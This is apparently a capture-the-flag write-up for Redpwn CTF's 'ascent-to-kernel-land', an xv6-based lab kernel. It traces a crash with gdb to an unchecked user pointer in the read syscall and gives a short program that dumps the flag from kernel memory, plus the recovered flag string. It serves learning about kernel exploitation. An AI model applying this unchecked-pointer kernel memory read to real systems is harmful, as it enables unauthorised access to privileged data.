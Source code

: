 ```yaml
---
layout: post
title:  "Redpwn CTF ascent-to-kernel-land Writeup"
img: redpwn-ascent.png
tags: [Redpwn, Writeup, CTF]
---
```


It's my first kernel exploit challenge writeup. Thank you Redpwn CTF!

## Description

We have a [tgz file](https://github.com/JackGrence/ctf-write-ups/raw/master/2019/RedpwnCTF/ascent-to-kernel-land/ascent-to-kernel-land.tar.gz), it is a lightweight OS. Follow the Makefile:

```make
qemu: fs.img xv6.img
        $(QEMU) -serial mon:stdio $(QEMUOPTS)

qemu-memfs: xv6memfs.img
        $(QEMU) -drive file=xv6memfs.img,index=0,media=disk,format=raw -smp $(CPUS) -m 256

qemu-nox: fs.img xv6.img
        $(QEMU) -nographic $(QEMUOPTS)

.gdbinit: .gdbinit.tmpl
        sed "s/localhost:1234/localhost:$(GDBPORT)/" < $^ > $@

qemu-gdb: fs.img xv6.img .gdbinit
        @echo "*** Now run 'gdb'." 1>&2
        $(QEMU) -serial mon:stdio $(QEMUOPTS) -S $(QEMUGDB)

qemu-nox-gdb: fs.img xv6.img .gdbinit
        @echo "*** Now run 'gdb'." 1>&2
        $(QEMU) -nographic $(QEMUOPTS) -S $(QEMUGDB)

```

These qemu targets can run or debug this OS in qemu. Start qemu and attach it:

```bash
$ make qemu-nox-gdb
*** Now run 'gdb'.
qemu-system-i386 -nographic -snapshot -drive file=fs.img,index=1,me...

gdb-peda$ target remote localhost:26000
```

According to README, the flag in kernel memory. We can find global variable `flag` defined in source code(main.c:9):

```c
#include "proc.h"
#include "x86.h"

char flag[70] = "REDACTED FROM SOURCE";

static void startothers(void);
static void mpmain(void) __attribute__((noreturn));
```

## How to get the flag?

But, how can we access the kernel memory? Have any vulnerabilities in system call? After a while, I found the program named `usertests`. It will crash the system!(usertests.c:1717):

```c
void argptest()
{
        int fd;
        fd = open("init", O_RDONLY);
        if (fd < 0) {
                printf(2, "open failed\n");
                exit();
        }
        read(fd, sbrk(0) - 1, -1); // Crash!
        close(fd);
        printf(1, "arg test passed\n");
}
```

The crash message:

```
$ ./usertests
usertests starting
unexpected trap 14 from cpu 1 eip 80104594 (cr2=0xd000)
lapicid 1: panic: trap
 801059ac 8010566f 80101a4c 80100fcc 80104b82 80104899 80105855 8010566f 0 0
```

Search `panic: ` in source code, we can find the crash message printed in consol.c:

```c
void panic(char *s)
{
        int i;
        uint pcs[10];

        cli();
        cons.locking = 0;
        // use lapiccpunum so that we can call panic from mycpu()
        cprintf("lapicid %d: panic: ", lapicid());
        cprintf(s);
        cprintf("\n");
        getcallerpcs(&s, pcs);
        for (i = 0; i < 10; i++)
                cprintf(" %p", pcs[i]);
        panicked = 1; // freeze other CPU
        for (;;)
                ;
}
```

Just `break panic` in gdb and see what's going on!

```
gdb-peda$ bt
#0  0x80100390 in panic ()
#1  0x801059ac in trap ()
#2  0x8010566f in alltraps () at trapasm.S:20
#3  0x8df23e6c in ?? ()
#4  0x80101a4c in readi ()
#5  0x80100fcc in fileread ()
#6  0x80104b82 in sys_read ()
#7  0x80104899 in syscall ()
#8  0x80105855 in trap ()
#9  0x8010566f in alltraps () at trapasm.S:20
#10 0x8df23fb4 in ?? ()
```

It's obvious that the read function failed because the 0xcfff is the end of the process address, we can't write more than one byte to it. (frame #4):

```
[-------------------------------------code-------------------------------------]
   0x80101a42 <readi+162>:      push   DWORD PTR [ebp-0x20]
   0x80101a45 <readi+165>:      add    esi,ebx
   0x80101a47 <readi+167>:      call   0x80104550 <memmove>
=> 0x80101a4c <readi+172>:      mov    edx,DWORD PTR [ebp-0x24]
   0x80101a4f <readi+175>:      mov    DWORD PTR [esp],edx
   0x80101a52 <readi+178>:      call   0x801001e0 <brelse>
   0x80101a57 <readi+183>:      add    DWORD PTR [ebp-0x20],ebx
   0x80101a5a <readi+186>:      add    esp,0x10
[------------------------------------stack-------------------------------------]
0000| 0x8df23ec0 (0x0000cfff)
0004| 0x8df23ec4 --> 0x8010c990 --> 0x464c457f
0008| 0x8df23ec8 --> 0x200 --> 0x5d4835 ('5H]')
0012| 0x8df23ecc --> 0x80101a0f --> 0x5008ec83
```

## The magic!

This crash give me a hint! Can I access the kernel memory directly? Yes! I can!

```c
int main(int argc, char *argv[])
{
  write(1, 0x8010a000, 0x100);
}
```

In local, we can modify the Makefile, put the exploit program in.

```
$ ./hello
REDACTED FROM SOURCE5[>[G[P[Y[b[k[t[}[[[[[[[[[[\\\#\,\5\>\G\P\Y\b\k\t\}...
```

It works! But how can we do in remote?

* The command length is limited.
* The "\>\>" redirector can't append the content to the file.
* No any wget or nc in this OS.

Finally, `(cat file; echo -n \x00) > file` works for me!

Flag: `flag{k3rn3l_sp4ce_is_n0t_a_h1d1ng_pl4ce_08731048730417319374198732498}`

[Final exploit](https://github.com/JackGrence/ctf-write-ups/blob/master/2019/RedpwnCTF/ascent-to-kernel-land/exp.py)
